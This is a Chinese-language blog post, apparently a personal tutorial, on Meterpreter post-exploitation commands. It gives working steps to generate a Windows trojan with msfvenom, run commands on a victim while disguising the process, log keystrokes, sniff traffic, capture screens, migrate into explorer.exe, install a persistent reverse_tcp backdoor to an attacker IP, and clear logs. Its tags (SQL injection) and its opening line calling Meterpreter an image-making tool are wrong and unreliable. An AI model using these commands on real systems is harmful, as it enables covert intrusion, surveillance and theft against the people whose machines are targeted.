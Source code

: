 ```yaml
---
layout:     post
title:      Meterpreter-基础命令
subtitle:
date:       2020-5-9
author:     BY Diego
header-img: img/wenzhang/post-bg-Meterpreter.jpg
catalog: true
tags:
    - 数据库
    - SQL注入
    - SQL
---
```


# 一、基础

Meterpreter是个用来产生各种图像的命令。适用于广大图形爱好者。

![YejJ4s.png](https://s1.ax1x.com/2020/05/07/YejJ4s.png)


help 命令查看帮助
![YmeEyF.png](https://s1.ax1x.com/2020/05/07/YmeEyF.png)

核心命令如下

命令 | 含义
-|-
banner |  显示一个metasploit横幅
cd |  更改当前的工作目录
color |  切换颜色
connect |  连接与主机通信
exit  | 退出控制台
get  | 获取特定于上下文的变量的值
getg |  获取全局变量的值
grep | grep另一个命令的输出
help  | 帮助菜单
history |   显示命令历史
irb  | 进入irb脚本模式
load  | 加载一个框架插件
quit  | 退出控制台
route  | 通过会话路由流量
save |  保存活动的数据存储
sessions  |  转储会话列表并显示有关会话的信息
set |  将特定于上下文的变量设置为一个值
setg |  将全局变量设置为一个值
sleep |  在指定的秒数内不做任何事情
spool  | 将控制台输出写入文件以及屏幕
threads |  线程查看和操作后台线程
unload |  卸载框架插件
unset |  取消设置一个或多个特定于上下文的变量
unsetg |  取消设置一个或多个全局变量
version |  显示框架和控制台库版本号

在控制台内是可以直接执行命令的
[![YmmoCt.png](https://s1.ax1x.com/2020/05/07/YmmoCt.png)](https://imgchr.com/i/YmmoCt)

## Meterpreter中常用的反弹类型
**1.reverse_tcp**
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

**2.reverse_http**
基于http方式的反向连接，在网速慢的情况下不稳定。

**3.reverse_https**
基于https方式的反向连接，在网速慢的情况下不稳定， https如果反弹没有收到数据，可以将监听端口换成443试试

**4.bind_tcp**
这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
# 二、常见用法

## (1) windows

### ① msfvenom 生成木马
**查找payload**
```bash
msfvenom -l  payload | grep window
```
**生成木马**(正向连接型)
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp  lport=60005 -f exe -o test.exe
```
**配置Meterpreter**
```bash
use multi/handler
```
![YmtcFK.png](https://s1.ax1x.com/2020/05/07/YmtcFK.png)
![YmtgJO.png](https://s1.ax1x.com/2020/05/07/YmtgJO.png)

**会话管理**
background #把meterpreter后台挂起
bglist #提供所有正在运行的后台脚本的列表
sessions #
session -i number # 与第number个交互
session -k number # kill 第number
![YnTpPP.png](https://s1.ax1x.com/2020/05/08/YnTpPP.png)

**文件上传**
[![YmaNJf.png](https://s1.ax1x.com/2020/05/07/YmaNJf.png)](https://imgchr.com/i/YmaNJf)
[![YmaUW8.png](https://s1.ax1x.com/2020/05/07/YmaUW8.png)](https://imgchr.com/i/YmaUW8)

**执行命令**
"execute"命令为目标主机上执行一个命令，其中"execute -h"显示帮助信息。-f为执行要运行的命令, -H后台执行 -i交互 -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行
 "-o wce.txt"是wce.exe的运行参数
![YmdGX4.png](https://s1.ax1x.com/2020/05/07/YmdGX4.png)

**文件查找**
![Ymd8cF.png](https://s1.ax1x.com/2020/05/07/Ymd8cF.png)

**修改文件** edit filename
**查看文件** cat filename
**目录** cd / dir

**端口转发**
当服务在内网，无法直接访问可以端口转发到本机
这里将目标的 80 转发到了 8888
```shell
portfwd add  -l 8888 -p 80 -r 192.168.1.107
```
![Yn5sZn.png](https://s1.ax1x.com/2020/05/08/Yn5sZn.png)
![Yn5yaq.png](https://s1.ax1x.com/2020/05/08/Yn5yaq.png)

**键盘监控**
keyscan_start # 开始捕获
keyscan_dump  # 打印
keyscan_stop  # 停止
![Ynb98x.png](https://s1.ax1x.com/2020/05/08/Ynb98x.png)

**进程迁移**
防止木马挂掉，可以将进程迁移到其他合法进程上如explorer.exe是Windows程序管理器或者文件资源管理器
1. ps |grep explorer.exe 通过ps找到进程PID
2. migrate  **
![YuDjoQ.png](https://s1.ax1x.com/2020/05/08/YuDjoQ.png)


**屏幕捕获**
use espia
screengrab 捕获
![Yu85PU.png](https://s1.ax1x.com/2020/05/08/Yu85PU.png)

**屏幕监控**
```shell
enumdesktops  #查看可用的桌面
getdesktop    #获取当前meterpreter 关联的桌面
setdesktop   #设置meterpreter关联的桌面  -h查看帮助
screenshot  #截屏
use espia  #或者使用espia模块截屏  然后输入screengrab
run vnc  #使用vnc远程桌面连接
```
![YQZWHU.png](https://s1.ax1x.com/2020/05/09/YQZWHU.png)

**流量监控**
```shell
use sniffer
sniffer_interfaces   #查看网卡
sniffer_start 2   #选择网卡 开始抓包
sniffer_stats 2   #查看状态
sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
sniffer_stop 2   #停止抓包
```
![YQEgGn.png](https://s1.ax1x.com/2020/05/09/YQEgGn.png)

**持久后门**
```bash
run persistence -X -i 5 -p 7777 -r 192.168.1.100
# -i 5 每五秒发送包 -p kali 接收端口 -r kail主机
reboot
exit

set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 7777
exploit
```
![YKW2DA.png](https://s1.ax1x.com/2020/05/08/YKW2DA.png)

**日志清除**
clearav
# 参考

[Metasploit 使用MSFconsole接口](https://www.fujieace.com/metasploit/msfconsole.html)

[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536#toc-9)

[]()

[]()
